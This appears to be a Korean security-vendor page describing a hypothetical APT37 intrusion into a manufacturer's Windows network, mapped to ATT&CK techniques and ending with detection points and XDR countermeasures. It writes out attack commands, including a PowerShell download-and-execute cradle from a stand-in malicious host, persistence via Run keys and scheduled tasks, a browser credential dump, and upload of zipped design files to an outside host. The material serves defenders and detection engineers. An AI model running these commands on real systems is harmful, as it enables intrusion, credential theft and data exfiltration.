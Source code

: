 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          |
| --- | ------------------------------------- | --------------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         |
| --- | --------------------------------------- | -------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

| 2-3   | T1053.005 – Scheduled Task              | SYSTEM 권한 확보 위한 예약 작업 생성      |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       |
| --- | ------------------------------------ | ------------------------ |
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        |
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           |
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          |
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) |

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              |
| --- | ----------------------------------------- | --------------- |
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 |

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

\| 4-2   | T1005 – Data from Local System            | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

\| 4-3   | T1123 – Audio Capture                     | 회의 녹음 15초                |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               |
| --- | --------------------------------- | ---------------- |
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 |

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

\| 5-2   | T1105 – Ingress Tool Transfer     | 설계도 압축본 업로드     |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 |
| --- | ------------------------------ | ------------------ |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 |

```cmd
shutdown /r /t 1 /f
```

\| 6-2   | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히 보기](plura_waf_xdr_detection.md)

---
